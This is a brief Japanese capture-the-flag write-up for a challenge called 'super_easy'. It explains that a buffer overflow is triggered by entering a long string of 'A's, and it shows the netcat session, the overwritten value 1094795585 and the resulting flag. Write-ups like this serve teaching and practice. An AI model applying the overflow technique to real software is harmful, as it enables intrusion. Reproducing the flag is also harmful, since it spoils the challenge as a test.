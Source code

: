 # super_easy

BOFです．大量のAを入力すれば良い
```
$ nc 
Input task name
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
task
task name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
task done: 1094795585
taskctf{bre4k_e4sily}
```

```bash
taskctf{bre4k_e4sily}
```